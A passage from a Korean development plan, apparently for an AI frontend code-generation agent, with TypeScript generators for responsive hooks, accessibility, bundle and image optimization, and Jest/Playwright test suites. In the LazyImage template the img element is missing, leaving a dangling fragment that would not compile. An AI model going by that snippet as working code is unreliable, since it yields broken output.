    // 컴포넌트 분석
    const analysis = await this.analyzeComponent(component);

    // 반응형 Props 추가
    const responsiveProps = this.generateResponsiveProps(analysis);

    // 반응형 스타일 생성
    const responsiveStyles = await this.generateResponsiveStyles(component, breakpoints, analysis);

    // 조건부 렌더링 로직
    const conditionalRendering = this.generateConditionalRendering(analysis, breakpoints);

    // 반응형 컴포넌트 코드 생성
    const responsiveCode = this.wrapWithResponsiveLogic(
      component.code,
      responsiveProps,
      responsiveStyles,
      conditionalRendering,
    );

    return {
      ...component,
      code: responsiveCode,
      responsiveConfig: {
        breakpoints: breakpoints.map((bp) => bp.name),
        hiddenOn: analysis.hiddenBreakpoints,
        stackOn: analysis.stackBreakpoints,
        variants: analysis.responsiveVariants,
      },
    };
  }

  private async generateResponsiveHooks(
    breakpoints: Breakpoint[],
    framework: string,
  ): Promise<ResponsiveHook[]> {
    const hooks: ResponsiveHook[] = [];

    // useMediaQuery hook
    hooks.push({
      name: 'useMediaQuery',
      code: `
import { useState, useEffect } from 'react';

export const useMediaQuery = (query: string): boolean => {
  const [matches, setMatches] = useState(false);
  
  useEffect(() => {
    const media = window.matchMedia(query);
    if (media.matches !== matches) {
      setMatches(media.matches);
    }
    
    const listener = (e: MediaQueryListEvent) => setMatches(e.matches);
    
    // Modern browsers
    if (media.addEventListener) {
      media.addEventListener('change', listener);
      return () => media.removeEventListener('change', listener);
    } else {
      // Fallback for older browsers
      media.addListener(listener);
      return () => media.removeListener(listener);
    }
  }, [matches, query]);
  
  return matches;
};

// Preset breakpoint hooks
${breakpoints
  .map(
    (bp) => `
export const use${this.capitalize(bp.name)} = () => 
  useMediaQuery('(min-width: ${bp.min}px)');`,
  )
  .join('\n')}
`,
    });

    // useBreakpoint hook
    hooks.push({
      name: 'useBreakpoint',
      code: `
import { useMediaQuery } from './useMediaQuery';

type Breakpoint = ${breakpoints.map((bp) => `'${bp.name}'`).join(' | ')};

export const useBreakpoint = (): Breakpoint => {
  ${breakpoints
    .reverse()
    .map(
      (bp) => `
  const is${this.capitalize(bp.name)} = useMediaQuery('(min-width: ${bp.min}px)');
  if (is${this.capitalize(bp.name)}) return '${bp.name}';`,
    )
    .join('\n')}
  
  return '${breakpoints[breakpoints.length - 1].name}';
};

export const useBreakpointValue = <T extends Record<Breakpoint, any>>(
  values: Partial<T>
): T[Breakpoint] | undefined => {
  const breakpoint = useBreakpoint();
  return values[breakpoint];
};
`,
    });

    // useResponsive hook
    hooks.push({
      name: 'useResponsive',
      code: `
import { useBreakpoint, useBreakpointValue } from './useBreakpoint';
import { useMediaQuery } from './useMediaQuery';

interface ResponsiveConfig {
  hideOn?: Breakpoint[];
  showOn?: Breakpoint[];
  stackOn?: Breakpoint[];
}

export const useResponsive = (config: ResponsiveConfig) => {
  const currentBreakpoint = useBreakpoint();
  
  const isHidden = config.hideOn?.includes(currentBreakpoint) ?? false;
  const isVisible = config.showOn 
    ? config.showOn.includes(currentBreakpoint)
    : !isHidden;
  const isStacked = config.stackOn?.includes(currentBreakpoint) ?? false;
  
  return {
    breakpoint: currentBreakpoint,
    isHidden,
    isVisible,
    isStacked,
    isMobile: ['xs', 'sm'].includes(currentBreakpoint),
    isTablet: ['md'].includes(currentBreakpoint),
    isDesktop: ['lg', 'xl', '2xl'].includes(currentBreakpoint)
  };
};
`,
    });

    return hooks;
  }

  private generateResponsiveUtilities(
    breakpoints: Breakpoint[],
    framework: string,
  ): ResponsiveUtility[] {
    const utilities: ResponsiveUtility[] = [];

    // Container utility
    utilities.push({
      name: 'Container',
      type: 'component',
      code: `
export const Container = ({ children, fluid = false, className = '' }) => {
  const containerClasses = fluid 
    ? 'w-full px-4 sm:px-6 lg:px-8'
    : 'container mx-auto px-4 sm:px-6 lg:px-8';
    
  return (
    <div className={\`\${containerClasses} \${className}\`}>
      {children}
    </div>
  );
};`,
    });

    // Show/Hide utilities
    utilities.push({
      name: 'Show',
      type: 'component',
      code: `
export const Show = ({ 
  children, 
  breakpoint,
  above = false,
  below = false 
}) => {
  const { isVisible } = useResponsive({
    showOn: above ? getBreakpointsAbove(breakpoint) : 
            below ? getBreakpointsBelow(breakpoint) : 
            [breakpoint]
  });
  
  return isVisible ? <>{children}</> : null;
};`,
    });

    // Stack utility
    utilities.push({
      name: 'Stack',
      type: 'component',
      code: `
export const Stack = ({ 
  children, 
  direction = 'vertical',
  spacing = 4,
  stackOn = ['xs', 'sm']
}) => {
  const { isStacked } = useResponsive({ stackOn });
  
  const stackClasses = isStacked
    ? \`flex flex-col space-y-\${spacing}\`
    : direction === 'horizontal'
    ? \`flex flex-row space-x-\${spacing}\`
    : \`flex flex-col md:flex-row md:space-x-\${spacing} space-y-\${spacing} md:space-y-0\`;
    
  return (
    <div className={stackClasses}>
      {children}
    </div>
  );
};`,
    });

    return utilities;
  }
}

// 접근성 구현 생성기
class AccessibilityImplementor {
  async implementAccessibility(
    components: ComponentCode[],
    accessibilityRequirements: AccessibilityRequirements,
  ): Promise<AccessibleComponent[]> {
    const accessibleComponents: AccessibleComponent[] = [];

    for (const component of components) {
      const accessibleVersion = await this.makeAccessible(component, accessibilityRequirements);
      accessibleComponents.push(accessibleVersion);
    }

    return accessibleComponents;
  }

  private async makeAccessible(
    component: ComponentCode,
    requirements: AccessibilityRequirements,
  ): Promise<AccessibleComponent> {
    // ARIA 속성 추가
    const ariaEnhanced = await this.addAriaAttributes(component);

    // 키보드 네비게이션 추가
    const keyboardEnabled = await this.addKeyboardNavigation(ariaEnhanced);

    // 포커스 관리 추가
    const focusManaged = await this.addFocusManagement(keyboardEnabled);

    // 스크린 리더 지원
    const screenReaderReady = await this.addScreenReaderSupport(focusManaged);

    // 색상 대비 확인 및 수정
    const contrastFixed = await this.ensureColorContrast(
      screenReaderReady,
      requirements.contrastRatio,
    );

    return {
      ...component,
      code: contrastFixed,
      accessibility: {
        ariaAttributes: this.extractAriaAttributes(contrastFixed),
        keyboardShortcuts: this.extractKeyboardShortcuts(contrastFixed),
        wcagCompliance: requirements.wcagLevel,
        tested: false,
      },
    };
  }

  private async addAriaAttributes(component: ComponentCode): Promise<string> {
    // 컴포넌트 타입에 따른 ARIA 속성 매핑
    const ariaMapping = {
      button: {
        role: 'button',
        attributes: ['aria-pressed', 'aria-expanded', 'aria-label'],
      },
      input: {
        attributes: ['aria-label', 'aria-describedby', 'aria-invalid', 'aria-required'],
      },
      navigation: {
        role: 'navigation',
        attributes: ['aria-label'],
      },
      modal: {
        role: 'dialog',
        attributes: ['aria-modal', 'aria-labelledby', 'aria-describedby'],
      },
    };

    // 코드 분석 및 ARIA 속성 주입
    let enhancedCode = component.code;

    for (const [elementType, ariaConfig] of Object.entries(ariaMapping)) {
      if (component.name.toLowerCase().includes(elementType)) {
        enhancedCode = this.injectAriaAttributes(enhancedCode, ariaConfig);
      }
    }

    return enhancedCode;
  }
}
```

**검증 기준**:

- [ ] 반응형 레이아웃 시스템
- [ ] 브레이크포인트 관리
- [ ] 접근성 자동 구현
- [ ] 반응형 유틸리티 생성

#### SubTask 4.13.4: 성능 최적화 코드 생성

**담당자**: 성능 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/performance-optimizer.ts
interface PerformanceOptimization {
  codeOptimizations: CodeOptimization[];
  bundleOptimizations: BundleOptimization[];
  renderOptimizations: RenderOptimization[];
  networkOptimizations: NetworkOptimization[];
  imageOptimizations: ImageOptimization[];
}

class FrontendPerformanceOptimizer {
  private codeAnalyzer: CodeAnalyzer;
  private bundleOptimizer: BundleOptimizer;
  private renderOptimizer: RenderOptimizer;

  async optimizeFrontendCode(
    codeStructure: FrontendCodeStructure,
    performanceTargets: PerformanceTargets,
  ): Promise<OptimizedCodeStructure> {
    // 1. 코드 레벨 최적화
    const optimizedComponents = await this.optimizeComponents(
      codeStructure.components,
      performanceTargets,
    );

    // 2. 번들 최적화 설정
    const bundleConfig = await this.optimizeBundleConfiguration(codeStructure, performanceTargets);

    // 3. 렌더링 최적화
    const renderOptimizations = await this.optimizeRendering(
      optimizedComponents,
      codeStructure.framework,
    );

    // 4. 네트워크 최적화
    const networkOptimizations = await this.optimizeNetworkRequests(codeStructure.api_integration);

    // 5. 이미지 최적화
    const imageOptimizations = await this.optimizeImages(codeStructure);

    return {
      ...codeStructure,
      components: optimizedComponents,
      bundleConfig,
      performanceOptimizations: {
        render: renderOptimizations,
        network: networkOptimizations,
        images: imageOptimizations,
      },
    };
  }

  private async optimizeComponents(
    components: ComponentCode[],
    targets: PerformanceTargets,
  ): Promise<ComponentCode[]> {
    const optimizedComponents: ComponentCode[] = [];

    for (const component of components) {
      const optimized = await this.optimizeComponent(component, targets);
      optimizedComponents.push(optimized);
    }

    return optimizedComponents;
  }

  private async optimizeComponent(
    component: ComponentCode,
    targets: PerformanceTargets,
  ): Promise<ComponentCode> {
    let optimizedCode = component.code;

    // 1. React.memo / Vue.memo 적용
    optimizedCode = this.applyMemoization(optimizedCode, component);

    // 2. Lazy loading 적용
    optimizedCode = this.applyLazyLoading(optimizedCode, component);

    // 3. useMemo/useCallback 최적화
    optimizedCode = this.optimizeHooks(optimizedCode, component);

    // 4. Virtual scrolling 적용 (리스트 컴포넌트)
    if (component.type === 'list') {
      optimizedCode = this.applyVirtualScrolling(optimizedCode);
    }

    // 5. 이미지 최적화
    optimizedCode = this.optimizeComponentImages(optimizedCode);

    // 6. 번들 크기 최적화
    optimizedCode = this.reduceComponentSize(optimizedCode);

    return {
      ...component,
      code: optimizedCode,
      optimizations: this.getAppliedOptimizations(optimizedCode, component.code),
    };
  }

  private applyMemoization(code: string, component: ComponentCode): string {
    if (component.framework === 'react') {
      // Pure component check
      const isPure = this.isPureComponent(component);

      if (isPure && !code.includes('React.memo')) {
        return `
import React from 'react';

${code}

export default React.memo(${component.name}, (prevProps, nextProps) => {
  // Custom comparison logic if needed
  return JSON.stringify(prevProps) === JSON.stringify(nextProps);
});`;
      }
    } else if (component.framework === 'vue') {
      // Vue 3 memo
      if (!code.includes('defineComponent')) {
        return code.replace('export default {', 'export default defineComponent({\n  memo: true,');
      }
    }

    return code;
  }

  private applyLazyLoading(code: string, component: ComponentCode): string {
    // Route-based components
    if (component.isRoute && component.framework === 'react') {
      return `
import { lazy, Suspense } from 'react';
import { LoadingSpinner } from '@/components/common/LoadingSpinner';

const ${component.name} = lazy(() => import('./${component.name}'));

export const Lazy${component.name} = (props) => (
  <Suspense fallback={<LoadingSpinner />}>
    <${component.name} {...props} />
  </Suspense>
);`;
    }

    // Heavy components
    if (component.bundleSize > 50) {
      // 50KB threshold
      return this.wrapWithLazyBoundary(code, component);
    }

    return code;
  }

  private optimizeHooks(code: string, component: ComponentCode): string {
    if (component.framework !== 'react') return code;

    // useMemo for expensive computations
    const expensiveComputations = this.findExpensiveComputations(code);
    for (const computation of expensiveComputations) {
      code = this.wrapWithUseMemo(code, computation);
    }

    // useCallback for event handlers
    const eventHandlers = this.findEventHandlers(code);
    for (const handler of eventHandlers) {
      code = this.wrapWithUseCallback(code, handler);
    }

    return code;
  }

  private async optimizeBundleConfiguration(
    codeStructure: FrontendCodeStructure,
    targets: PerformanceTargets,
  ): Promise<BundleConfiguration> {
    const framework = codeStructure.framework;

    if (framework === 'react' || framework === 'nextjs') {
      return this.generateWebpackOptimization(codeStructure, targets);
    } else if (framework === 'vue' || framework === 'solidjs') {
      return this.generateViteOptimization(codeStructure, targets);
    } else if (framework === 'angular') {
      return this.generateAngularOptimization(codeStructure, targets);
    }

    return this.generateGenericOptimization(codeStructure, targets);
  }

  private generateWebpackOptimization(
    codeStructure: FrontendCodeStructure,
    targets: PerformanceTargets,
  ): BundleConfiguration {
    return {
      type: 'webpack',
      config: `
const TerserPlugin = require('terser-webpack-plugin');
const CompressionPlugin = require('compression-webpack-plugin');
const BundleAnalyzerPlugin = require('webpack-bundle-analyzer').BundleAnalyzerPlugin;
const { PurgeCSSPlugin } = require('purgecss-webpack-plugin');

module.exports = {
  optimization: {
    minimize: true,
    minimizer: [
      new TerserPlugin({
        terserOptions: {
          parse: { ecma: 8 },
          compress: {
            ecma: 5,
            warnings: false,
            comparisons: false,
            inline: 2,
            drop_console: true,
            drop_debugger: true
          },
          mangle: { safari10: true },
          output: {
            ecma: 5,
            comments: false,
            ascii_only: true
          }
        }
      })
    ],
    splitChunks: {
      chunks: 'all',
      cacheGroups: {
        vendor: {
          test: /[\\/]node_modules[\\/]/,
          name: 'vendors',
          priority: 10,
          reuseExistingChunk: true
        },
        common: {
          minChunks: 2,
          priority: 5,
          reuseExistingChunk: true
        },
        // Framework-specific chunks
        react: {
          test: /[\\/]node_modules[\\/](react|react-dom|scheduler)[\\/]/,
          name: 'react-vendor',
          priority: 20
        },
        // UI library chunk
        ui: {
          test: /[\\/]node_modules[\\/](@mui|antd|@chakra-ui)[\\/]/,
          name: 'ui-vendor',
          priority: 15
        }
      }
    },
    runtimeChunk: 'single',
    moduleIds: 'deterministic'
  },
  
  plugins: [
    // Compression
    new CompressionPlugin({
      algorithm: 'gzip',
      test: /\.(js|css|html|svg)$/,
      threshold: 8192,
      minRatio: 0.8
    }),
    new CompressionPlugin({
      algorithm: 'brotliCompress',
      test: /\.(js|css|html|svg)$/,
      threshold: 8192,
      minRatio: 0.8,
      filename: '[path][base].br'
    }),
    
    // CSS optimization
    new PurgeCSSPlugin({
      paths: glob.sync(\`\${PATHS.src}/**/*\`, { nodir: true }),
      safelist: {
        standard: ['html', 'body'],
        deep: [/^modal/, /^tooltip/],
        greedy: [/^btn/]
      }
    }),
    
    // Bundle analysis
    process.env.ANALYZE && new BundleAnalyzerPlugin({
      analyzerMode: 'static',
      reportFilename: 'bundle-report.html'
    })
  ].filter(Boolean),
  
  // Performance hints
  performance: {
    hints: 'warning',
    maxEntrypointSize: ${targets.maxEntrypointSize || 512000},
    maxAssetSize: ${targets.maxAssetSize || 244000}
  }
};`,
    };
  }

  private async optimizeRendering(
    components: ComponentCode[],
    framework: string,
  ): Promise<RenderOptimization[]> {
    const optimizations: RenderOptimization[] = [];

    // 1. Critical CSS extraction
    optimizations.push({
      type: 'critical-css',
      implementation: await this.generateCriticalCSS(components),
    });

    // 2. Server-side rendering optimization
    if (framework === 'nextjs' || framework === 'nuxt') {
      optimizations.push({
        type: 'ssr-optimization',
        implementation: await this.generateSSROptimization(framework),
      });
    }

    // 3. Progressive hydration
    optimizations.push({
      type: 'progressive-hydration',
      implementation: await this.generateProgressiveHydration(framework),
    });

    // 4. Resource hints
    optimizations.push({
      type: 'resource-hints',
      implementation: this.generateResourceHints(),
    });

    return optimizations;
  }

  private generateResourceHints(): string {
    return `
// Resource hints component
export const ResourceHints = () => {
  useEffect(() => {
    // Preconnect to external domains
    const domains = ['https://api.example.com', 'https://cdn.example.com'];
    domains.forEach(domain => {
      const link = document.createElement('link');
      link.rel = 'preconnect';
      link.href = domain;
      document.head.appendChild(link);
    });
    
    // Prefetch critical resources
    const criticalResources = ['/api/user', '/api/config'];
    criticalResources.forEach(resource => {
      const link = document.createElement('link');
      link.rel = 'prefetch';
      link.href = resource;
      document.head.appendChild(link);
    });
  }, []);
  
  return null;
};

// Next.js specific
export const getServerSideProps = async () => {
  return {
    props: {},
    // Resource hints in headers
    headers: {
      Link: [
        '<https://api.example.com>; rel=preconnect',
        '<https://cdn.example.com>; rel=preconnect',
        '</fonts/main.woff2>; rel=preload; as=font; crossorigin'
      ].join(', ')
    }
  };
};`;
  }
}

// 이미지 최적화
class ImageOptimizer {
  async optimizeImages(codeStructure: FrontendCodeStructure): Promise<ImageOptimization[]> {
    const optimizations: ImageOptimization[] = [];

    // Next.js Image component
    if (codeStructure.framework === 'nextjs') {
      optimizations.push({
        type: 'next-image',
        implementation: `
import Image from 'next/image';
import { useState } from 'react';

export const OptimizedImage = ({ 
  src, 
  alt, 
  width, 
  height,
  priority = false,
  className = ''
}) => {
  const [isLoading, setLoading] = useState(true);
  
  return (
    <div className={\`relative \${className}\`}>
      <Image
        src={src}
        alt={alt}
        width={width}
        height={height}
        priority={priority}
        placeholder="blur"
        blurDataURL={generateBlurDataURL(src)}
        onLoadingComplete={() => setLoading(false)}
        className={\`
          duration-700 ease-in-out
          \${isLoading ? 'scale-110 blur-2xl grayscale' : 'scale-100 blur-0 grayscale-0'}
        \`}
      />
    </div>
  );
};`,
      });
    }

    // Lazy loading implementation
    optimizations.push({
      type: 'lazy-loading',
      implementation: `
import { useIntersectionObserver } from '@/hooks/useIntersectionObserver';

export const LazyImage = ({ src, alt, ...props }) => {
  const [ref, isIntersecting] = useIntersectionObserver({
    threshold: 0.1,
    rootMargin: '50px'
  });
  
  const [isLoaded, setIsLoaded] = useState(false);
  const [hasError, setHasError] = useState(false);
  
  return (
    <div ref={ref} className="relative">
      {isIntersecting && (
         setIsLoaded(true)}
          onError={() => setHasError(true)}
          className={\`transition-opacity duration-300 \${
            isLoaded ? 'opacity-100' : 'opacity-0'
          }\`}
          {...props}
        />
      )}
      {!isLoaded && !hasError && (
        <div className="absolute inset-0 bg-gray-200 animate-pulse" />
      )}
    </div>
  );
};`,
    });

    return optimizations;
  }
}
```

**검증 기준**:

- [ ] 컴포넌트 레벨 최적화
- [ ] 번들 크기 최적화
- [ ] 렌더링 성능 향상
- [ ] 이미지 최적화

---

### Task 4.14: Frontend Agent 고급 기능

#### SubTask 4.14.1: 테스트 코드 자동 생성

**담당자**: 테스트 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/test-generator.ts
interface TestSuite {
  unitTests: UnitTest[];
  integrationTests: IntegrationTest[];
  e2eTests: E2ETest[];
  visualTests: VisualTest[];
  performanceTests: PerformanceTest[];
  accessibilityTests: AccessibilityTest[];
}

class FrontendTestGenerator {
  private unitTestGenerator: UnitTestGenerator;
  private integrationTestGenerator: IntegrationTestGenerator;
  private e2eTestGenerator: E2ETestGenerator;

  async generateTestSuite(
    components: ComponentCode[],
    pages: PageCode[],
    framework: string,
    testingLibrary: string,
  ): Promise<TestSuite> {
    // 1. 단위 테스트 생성
    const unitTests = await this.generateUnitTests(components, framework, testingLibrary);

    // 2. 통합 테스트 생성
    const integrationTests = await this.generateIntegrationTests(components, pages, framework);

    // 3. E2E 테스트 생성
    const e2eTests = await this.generateE2ETests(pages, framework);

    // 4. 시각적 회귀 테스트
    const visualTests = await this.generateVisualTests(components, pages);

    // 5. 성능 테스트
    const performanceTests = await this.generatePerformanceTests(pages);

    // 6. 접근성 테스트
    const accessibilityTests = await this.generateAccessibilityTests(components, pages);

    return {
      unitTests,
      integrationTests,
      e2eTests,
      visualTests,
      performanceTests,
      accessibilityTests,
    };
  }

  private async generateUnitTests(
    components: ComponentCode[],
    framework: string,
    testingLibrary: string,
  ): Promise<UnitTest[]> {
    const unitTests: UnitTest[] = [];

    for (const component of components) {
      const test = await this.unitTestGenerator.generate(component, framework, testingLibrary);
      unitTests.push(test);
    }

    return unitTests;
  }
}

class UnitTestGenerator {
  async generate(
    component: ComponentCode,
    framework: string,
    testingLibrary: string,
  ): Promise<UnitTest> {
    if (framework === 'react' && testingLibrary === 'jest') {
      return this.generateReactJestTest(component);
    } else if (framework === 'vue' && testingLibrary === 'vitest') {
      return this.generateVueVitestTest(component);
    } else if (framework === 'angular' && testingLibrary === 'jasmine') {
      return this.generateAngularJasmineTest(component);
    }

    return this.generateGenericTest(component);
  }

  private generateReactJestTest(component: ComponentCode): UnitTest {
    const testCode = `
import React from 'react';
import { render, screen, fireEvent, waitFor } from '@testing-library/react';
import userEvent from '@testing-library/user-event';
import { ${component.name} } from './${component.name}';
import '@testing-library/jest-dom';

describe('${component.name}', () => {
  ${this.generateDefaultPropsTest(component)}
  
  ${this.generateRenderTest(component)}
  
  ${this.generatePropsTest(component)}
  
  ${this.generateEventHandlerTests(component)}
  
  ${this.generateStateTests(component)}
  
  ${this.generateSnapshotTest(component)}
  
  ${this.generateAccessibilityTest(component)}
  
  ${this.generateErrorBoundaryTest(component)}
});

// Custom render function with providers
const renderWithProviders = (
  ui: React.ReactElement,
  options?: RenderOptions
) => {
  const AllTheProviders = ({ children }: { children: React.ReactNode }) => {
    return (
      <ThemeProvider theme={theme}>
        <QueryClientProvider client={queryClient}>
          {children}
        </QueryClientProvider>
      </ThemeProvider>
    );
  };
  
  return render(ui, { wrapper: AllTheProviders, ...options });
};`;

    return {
      name: `${component.name}.test.tsx`,
      type: 'unit',
      framework: 'react',
      testingLibrary: 'jest',
      code: testCode,
      coverage: {
        statements: 0,
        branches: 0,
        functions: 0,
        lines: 0,
      },
    };
  }

  private generateDefaultPropsTest(component: ComponentCode): string {
    const defaultProps = this.extractDefaultProps(component);

    return `
  const defaultProps = ${JSON.stringify(defaultProps, null, 2)};
  
  it('renders with default props', () => {
    render(<${component.name} {...defaultProps} />);
    expect(screen.getByRole('${this.getComponentRole(component)}')).toBeInTheDocument();
  });`;
  }

  private generateRenderTest(component: ComponentCode): string {
    return `
  describe('Rendering', () => {
    it('renders without crashing', () => {
      render(<${component.name} {...defaultProps} />);
    });
    
    it('renders all required elements', () => {
      render(<${component.name} {...defaultProps} />);
      
      ${this.generateElementAssertions(component)}
    });
    
    it('applies correct CSS classes', () => {
      const { container } = render(<${component.name} {...defaultProps} className="custom-class" />);
      expect(container.firstChild).toHaveClass('custom-class');
    });
  });`;
  }

  private generatePropsTest(component: ComponentCode): string {
    const props = this.extractProps(component);

    return `
  describe('Props', () => {
    ${props
      .map(
        (prop) => `
    it('handles ${prop.name} prop correctly', () => {
      const ${prop.name} = ${this.generatePropValue(prop)};
      render(<${component.name} {...defaultProps} ${prop.name}={${prop.name}} />);
      
      ${this.generatePropAssertion(prop)}
    });`,
      )
      .join('\n')}
  });`;
  }

  private generateEventHandlerTests(component: ComponentCode): string {
    const handlers = this.extractEventHandlers(component);

    return `
  describe('Event Handlers', () => {
    ${handlers
      .map(
        (handler) => `
    it('calls ${handler.name} when ${handler.trigger}', async () => {
      const ${handler.name} = jest.fn();
      render(<${component.name} {...defaultProps} ${handler.name}={${handler.name}} />);
      
      ${this.generateEventTrigger(handler)}
      
      await waitFor(() => {
        expect(${handler.name}).toHaveBeenCalledTimes(1);
        ${handler.expectedArgs ? `expect(${handler.name}).toHaveBeenCalledWith(${handler.expectedArgs});` : ''}
      });
    });`,
      )
      .join('\n')}
  });`;
  }

  private generateStateTests(component: ComponentCode): string {
    if (!component.hasState) return '';

    return `
  describe('State Management', () => {
    it('updates state correctly on user interaction', async () => {
      const user = userEvent.setup();
      render(<${component.name} {...defaultProps} />);
      
      // Initial state
      ${this.generateInitialStateAssertions(component)}
      
      // User interaction
      ${this.generateUserInteractions(component)}
      
      // Updated state
      ${this.generateUpdatedStateAssertions(component)}
    });
  });`;
  }
}

// Integration test generator
class IntegrationTestGenerator {
  async generateIntegrationTests(
    components: ComponentCode[],
    pages: PageCode[],
    framework: string,
  ): Promise<IntegrationTest[]> {
    const tests: IntegrationTest[] = [];

    // Component integration tests
    const componentGroups = this.groupRelatedComponents(components);
    for (const group of componentGroups) {
      tests.push(await this.generateComponentIntegrationTest(group, framework));
    }

    // Page integration tests
    for (const page of pages) {
      tests.push(await this.generatePageIntegrationTest(page, framework));
    }

    // Data flow tests
    tests.push(await this.generateDataFlowTest(components, framework));

    // Router integration tests
    tests.push(await this.generateRouterIntegrationTest(pages, framework));

    return tests;
  }

  private async generateComponentIntegrationTest(
    components: ComponentCode[],
    framework: string,
  ): Promise<IntegrationTest> {
    const testName = `${components.map((c) => c.name).join('-')}-integration`;

    const code = `
import { render, screen, waitFor } from '@testing-library/react';
import userEvent from '@testing-library/user-event';
${components.map((c) => `import { ${c.name} } from '@/components/${c.name}';`).join('\n')}

describe('${testName}', () => {
  it('components work together correctly', async () => {
    const user = userEvent.setup();
    
    const { rerender } = render(
      <div>
        ${components.map((c) => `<${c.name} />`).join('\n        ')}
      </div>
    );
    
    // Test interactions between components
    ${this.generateInterComponentTests(components)}
    
    // Test data flow
    ${this.generateDataFlowAssertions(components)}
    
    // Test side effects
    ${this.generateSideEffectTests(components)}
  });
});`;

    return {
      name: `${testName}.test.tsx`,
      type: 'integration',
      code,
      components: components.map((c) => c.name),
    };
  }
}

// E2E test generator
class E2ETestGenerator {
  async generateE2ETests(pages: PageCode[], framework: string): Promise<E2ETest[]> {
    const tests: E2ETest[] = [];

    // User journey tests
    const userJourneys = await this.identifyUserJourneys(pages);
    for (const journey of userJourneys) {
      tests.push(await this.generateUserJourneyTest(journey));
    }

    // Critical path tests
    tests.push(await this.generateCriticalPathTest(pages));

    // Cross-browser tests
    tests.push(await this.generateCrossBrowserTest(pages));

    return tests;
  }

  private async generateUserJourneyTest(journey: UserJourney): Promise<E2ETest> {
    const code = `
import { test, expect } from '@playwright/test';

test.describe('${journey.name} User Journey', () => {
  test.beforeEach(async ({ page }) => {
    await page.goto('/');
    ${journey.setup ? journey.setup : ''}
  });
  
  test('completes ${journey.name} successfully', async ({ page }) => {
    ${journey.steps
      .map(
        (step, index) => `
    // Step ${index + 1}: ${step.description}
    ${this.generateE2EStep(step)}
    
    // Verify step completion
    ${this.generateStepVerification(step)}`,
      )
      .join('\n')}
    
    // Final verification
    ${journey.finalVerification}
  });
  
  test('handles errors gracefully', async ({ page }) => {
    // Simulate network errors
    await page.route('**/api/**', route => route.abort());
    
    ${journey.errorHandling}
  });
});`;

    return {
      name: `${journey.name.toLowerCase().replace(/\s+/g, '-')}.e2e.test.ts`,
      type: 'e2e',
      testRunner: 'playwright',
      code,
      journey: journey.name,
    };
  }
}

// Visual regression test generator
class VisualTestGenerator {
  async generateVisualTests(components: ComponentCode[], pages: PageCode[]): Promise<VisualTest[]> {
    const tests: VisualTest[] = [];

    // Component visual tests
    for (const component of components) {
      tests.push(await this.generateComponentVisualTest(component));
    }

    // Page visual tests
    for (const page of pages) {
      tests.push(await this.generatePageVisualTest(page));
    }

    // Responsive visual tests
    tests.push(await this.generateResponsiveVisualTest(pages));

    return tests;
  }

  private async generateComponentVisualTest(component: ComponentCode): Promise<VisualTest> {
    const code = `
import { test } from '@playwright/test';
import { argosScreenshot } from '@argos-ci/playwright';

test.describe('${component.name} Visual Tests', () => {
  const viewports = [
    { width: 375, height: 667, name: 'mobile' },
    { width: 768, height: 1024, name: 'tablet' },
    { width: 1440, height: 900, name: 'desktop' }
  ];
  
  viewports.forEach(({ width, height, name }) => {
    test(\`renders correctly on \${name}\`, async ({ page }) => {
      await page.setViewportSize({ width, height });
      await page.goto(\`/storybook/iframe.html?id=\${component.name.toLowerCase()}--default\`);
      
      // Wait for component to render
      await page.waitForSelector('[data-testid="${component.name}"]');
      
      // Take screenshot
      await argosScreenshot(page, \`\${component.name}-\${name}\`);
    });
  });
  
  // Test different states
  ${this.generateStateVisualTests(component)}
  
  // Test theme variations
  ${this.generateThemeVisualTests(component)}
});`;

    return {
      name: `${component.name}.visual.test.ts`,
      type: 'visual',
      testRunner: 'playwright',
      code,
      component: component.name,
    };
  }
}

// Performance test generator
class PerformanceTestGenerator {
  async generatePerformanceTests(pages: PageCode[]): Promise<PerformanceTest[]> {
    const tests: PerformanceTest[] = [];

    for (const page of pages) {
      tests.push(await this.generatePagePerformanceTest(page));
    }

    // Bundle size test
    tests.push(this.generateBundleSizeTest());

    // Runtime performance test
    tests.push(this.generateRuntimePerformanceTest());

    return tests;
  }

  private async generatePagePerformanceTest(page: PageCode): Promise<PerformanceTest> {
    const code = `
import { test, expect } from '@playwright/test';

test.describe('${page.name} Performance', () => {
  test('meets performance budget', async ({ page }) => {
    const metrics = await page.goto('${page.route}', {
      waitUntil: 'networkidle'
    });
    
    // Collect performance metrics
    const performanceMetrics = await page.evaluate(() => {
      const navigation = performance.getEntriesByType('navigation')[0];
      const paint = performance.getEntriesByType('paint');
      
      return {
        // Navigation timing
        ttfb: navigation.responseStart - navigation.requestStart,
        domContentLoaded: navigation.domContentLoadedEventEnd - navigation.domContentLoadedEventStart,
        loadComplete: navigation.loadEventEnd - navigation.loadEventStart,
        
        // Paint timing
        fcp: paint.find(entry => entry.name === 'first-contentful-paint')?.startTime,
        lcp: performance.getEntriesByType('largest-contentful-paint')[0]?.startTime,
        
        // Resource metrics
        resources: performance.getEntriesByType('resource').length,
        totalSize: performance.getEntriesByType('resource')
          .reduce((sum, resource) => sum + resource.transferSize, 0)
      };
    });
    
    // Assert performance budgets
    expect(performanceMetrics.ttfb).toBeLessThan(600); // 600ms
    expect(performanceMetrics.fcp).toBeLessThan(1800); // 1.8s
    expect(performanceMetrics.lcp).toBeLessThan(2500); // 2.5s
    expect(performanceMetrics.totalSize).toBeLessThan(1000000); // 1MB
  });
  
  test('has no memory leaks', async ({ page }) => {
    await page.goto('${page.route}');
    
    // Take initial heap snapshot
    const initialHeap = await page.evaluate(() => performance.memory.usedJSHeapSize);
    
    // Perform actions that might leak memory
    for (let i = 0; i < 10; i++) {
      ${this.generateMemoryLeakTestActions(page)}
    }
    
    // Force garbage collection
    await page.evaluate(() => {
      if (global.gc) {
        global.gc();
      }
    });
    
    // Take final heap snapshot
    const finalHeap = await page.evaluate(() => performance.memory.usedJSHeapSize);
    
    // Check for memory leak
    const heapGrowth = finalHeap - initialHeap;
    expect(heapGrowth).toBeLessThan(5000000); // 5MB tolerance
  });
});`;

    return {
      name: `${page.name}.performance.test.ts`,
      type: 'performance',
      code,
      metrics: ['ttfb', 'fcp', 'lcp', 'memory'],
    };
  }
}
```

**검증 기준**:

- [ ] 다양한 테스트 타입 생성
- [ ] 프레임워크별 테스트 코드
- [ ] 성능 및 시각적 테스트
- [ ] E2E 사용자 여정 테스트

#### SubTask 4.14.2: 스토리북 및 문서화

**담당자**: 문서화 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
